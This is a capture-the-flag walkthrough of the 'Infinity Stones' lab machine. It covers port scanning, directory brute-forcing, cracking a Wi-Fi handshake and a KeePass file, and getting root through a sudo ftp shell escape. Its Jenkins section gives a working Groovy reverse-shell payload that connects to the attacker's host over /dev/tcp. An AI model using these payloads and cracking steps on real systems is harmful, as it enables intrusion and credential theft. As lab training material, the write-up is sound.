<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.hackingarticles.in/hainfinity-stones-ctf-challneges/"> Infinity Stones</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://www.linkedin.com/in/aarti-singh-353698114/?originalSubdomain=in"> Aarti singh</a></h4>

## Nmap



Woah simple nmap scan gives us one of the stones.

`MINDSTONE:{4542E4C233F26B4FAF6B5F3FED24280C}`

So there are 3 port opens. Even HTTPS is running there. We'll start our enumeration with HTTP service.

***

## HTTP


We can see website have some kind of `story` about Thanos and Avengers.

I did a `gobuster` scan on the  website and found few directories.



Interesting thing is there are two directory for `images`. The `/images` holds all the images we see on the index page of the website. And `/img` holds one image named `space.jpg`



In that image I found the `first stone` i.e `space stone`.



In `/wifi` I found two files named `pwd.txt` and `reality.cap`.



In the `pwd.txt` I found some hint for the password for `something`.



this means the password will have to something like `gamA11bb2012`. I was not sure what the password was for. So I decided to note down that information and move onto the `reality.cap` file.

It was a `pcap` file that had `802.11` protocol so basically we need a password to decrypt all the data.

I first converted the `.cap` file to `hccap` and from there I used `hccap2john` to get hashes and then cracked the hashes in 2 minutes.

```bash
➜ aircrack-ng reality.cap -J password
```



Now use `hccap2john` to get hashes for JTR

```bash
➜ hccap2john password.hccap > hash.txt
➜ john -mask="gam?u?d?d?l?l2012" -min-len=12 -max-len=12 hash.txt
```

```
?u - upper letter
?d - digits
?l - lower letter
```



`gamA00fe2012     (Kavish_2.4Ghz)`

I tried using this password to decrypt the `.cap` file packets but it didn't worked which was really weird because JTR said that this is the password to decrypt it.

Then [@badhackjob](https://twitter.com/badhackjob) gave me hint telling me that `.cap` file is just a `rabbit hole` and we don't need anything from that. All we needed a cracked password thats all. Once we have that password we can move ahead without any problem. I tried to use this password as SSH password with username as `stones` but that also didn't worked. Then I tried it as the directory `gamA00fe2012` and it gave me the `reality stones`.



`REALITYSTONE:{4542E4C233F26B4FAF6B5F3FED24280C}`

Then I had to message [@anushibin007](https://twitter.com/@anushibin007) to ask for help(again) because I couldn't understand what to do. He said that I need to visit `aether.php` and then use answers as binary. Meaning every `true` will be `1` and `false` would be `0` and then that would give another directory. I used `crunch` to generate a list having all the combinations of 8 digit formed using 01.

```
➜ crunch 8 8 01 -o crunched.txt
```



Then used `gobuster` to find the right dir.



That dir gave me a file name `hints.txt`



and that file had some `brainfuck` code in it.

```
+++++ ++++[ ->+++ +++++ +<]>+ +++++ +++++ +++++ .+++. +++++ ++++. ----.
+++++ .<+++ ++++[ ->--- ----< ]>--- .<+++ +++[- >++++ ++<]> +++.< ++++[
->+++ +<]>+ ++++. <++++ [->-- --<]> -.+++ +++++ +.--- ----. --.<+ ++[->
+++<] >++++ .+.<
```

I used online compiler to run it and that gave me credentials



`admin:avengers`

I rescanned the network and now there was a new port open i.e `8080`


## HTTP - 8080

Those were credentials for `jenkins` running on port 8080.


Since we have access to jenkins we can exploit `Groovy script` to get the reverse shell. In order to do that go to `Manage jenkins` and then find `Script console` option and type the following cod

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.56.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```



and while you listener is listing on port `4444` run that command to get a reverse shell.



***

## Horizontal Privilege escalation

I downloaded my enumeration script and ran which found that there were two users named `morag` and `stones`. Also I found a SUID with root permission in `/opt/script`



When I ran that binary I got `timestone`.


`TIMESTONE:{141BC86DFD5C40E3CC37219C18D471CA}`

Also in `/opt` I found `morag.kdbx`. I downloaded that files to my system and used JTR to crack it's password.

```bash
➜ keepass2john morag.kdbx > hash.txt
➜ john --wordlist=CTFs/lists/rockyou.lst hash.txt
```


`morag: princesa`

Since I have password for kdbx I used `kpcli` to get `power stone ` and password for morag.



`POWERSTONE:{EDDF140F156862C9B494C0B767DCD412}`

`morag:1HDD6pvuyUuZeNucpCpz`

But in another directory of that same kdbx file I found another creds.



I decoded the note and I got:



`morag:yondu`

This was the correct set of credentials that worked on `SSH`



***

## Vertical privilege escalation

I ran the `sudo -l` command and found out that `morag` can run `ftp` as root.


Using [gtfo](http://github.com/mzfr/gtfo) I searched gtfobins for any way to exploit this sudo right.



I used the

```bash
$ sudo ftp
ftp > !/bin/sh
```


Then I got the root flag.



`SOULSTONE:{56F06B4DAC14CE346998483989ABFF16}    `

***

This machine was kinda guessy. One would have to guess the binary part and that password to directory part. But both the privilege escalations were pretty neat.

Thanks to [Aarti singh](https://www.linkedin.com/in/aarti-singh-353698114/?originalSubdomain=in) for making this machine.

Also thanks to [@badhackjob](https://twitter.com/@badhackjob) and [@anushibin007](https://twitter.com/@anushibin007) for helping me out.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
